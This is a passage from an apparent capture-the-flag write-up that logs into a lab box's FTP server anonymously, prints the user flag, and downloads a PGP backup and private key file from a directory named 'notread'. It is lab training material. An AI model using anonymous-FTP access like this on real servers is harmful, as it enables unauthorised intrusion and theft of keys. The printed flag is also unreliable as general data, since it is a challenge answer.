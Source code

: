 - **We found that we can login to ftp with anonymous login and the password should be the default  `anonymous`**

### FTP login

```sh
ftp> cd root
550 Failed to change directory.
ftp> cd home 
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||29587|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
c226 Directory send OK.
ftp> cd melodias
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35851|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp> get user.txt -
remote: user.txt
229 Entering Extended Passive Mode (|||57756|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
606083fd33beb1284fc51f411a706af8
226 Transfer complete.
33 bytes received in 00:00 (0.18 KiB/s)

```

> ## user.txt : `606083fd33beb1284fc51f411a706af8`

- **There is a directory called notread . The name seems suspicious to me**
```sh
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||9133|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp> get backup.pgp 
local: backup.pgp remote: backup.pgp
229 Entering Extended Passive Mode (|||8367|)
150 Opening BINARY mode data connection for backup.pgp (524 bytes).
100% |***************************************************************************************************************************|   524       99.01 KiB/s    00:00 ETA
226 Transfer complete.
524 bytes received in 00:00 (2.80 KiB/s)
ftp> get private.asc
local: private.asc remote: private.asc
229 Entering Extended Passive Mode (|||57295|)
150 Opening BINARY mode data connection for private.asc (3762 bytes).
100% |***************************************************************************************************************************|  3762       29.40 MiB/s    00:00 ETA
226 Transfer complete.
3762 bytes received in 00:00 (18.34 KiB/s)

```
- **We found two files there**
    - `backup.pgp`
    - `private.asc`
